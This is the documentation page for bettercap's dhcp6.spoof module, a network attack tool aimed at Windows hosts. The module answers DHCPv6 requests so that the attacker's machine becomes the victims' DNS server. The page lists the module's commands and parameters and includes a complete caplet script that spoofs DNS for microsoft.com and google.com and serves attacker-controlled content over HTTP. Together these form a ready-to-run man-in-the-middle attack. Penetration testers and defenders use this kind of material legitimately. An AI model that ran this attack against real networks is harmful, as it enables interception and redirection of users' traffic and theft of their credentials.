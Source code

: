 ```yaml
---
title: dhcp6.spoof
description: This module's purpose is attacking Microsoft Windows hosts by replying to DHCPv6 messages and providing the target with a link-local IPv6 address and setting the attacker host as default DNS server.
---
```


This module's purpose is attacking Microsoft Windows hosts by replying to DHCPv6 messages and providing the target with a link-local IPv6 address and setting the attacker host as default DNS server (as described [here](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)).

:::note
This module must be used together with [dns.spoof](/modules/ethernet/spoofers/dnsspoof) module in order to be effective.

:::

### Commands

#### `dhcp6.spoof on`

Start the DHCPv6 spoofer in the background.

#### `dhcp6.spoof off`

Stop the DHCPv6 spoofer in the background.

### Parameters

| Parameter             | Default                                                          | Description                                      |
| --------------------- | ---------------------------------------------------------------- | ------------------------------------------------ |
| `dhcp6.spoof.domains` | `microsoft.com, goole.com, facebook.com, apple.com, twitter.com` | Comma separated values of domain names to spoof. |

### Examples

The following is the [mitm6.cap](https://github.com/bettercap/caplets/blob/master/mitm6.cap) caplet performing the full DHCPv6 attack versus a Windows 10 machine which is booting:

```bash
# let's spoof Microsoft and Google ^_^
set dns.spoof.domains microsoft.com, google.com
set dhcp6.spoof.domains microsoft.com, google.com

# every http request to the spoofed hosts will come to us
# let's give em some contents
set http.server.path /var/www/something

# serve files
http.server on
# redirect DNS request by spoofing DHCPv6 packets
dhcp6.spoof on
# send spoofed DNS replies ^_^
dns.spoof on

# set a custom prompt for ipv6
set $ {by}{fw}{cidr} {fb}> {env.iface.ipv6} {reset} {bold}» {reset}
# clear the events buffer and the screen
events.clear
clear
```

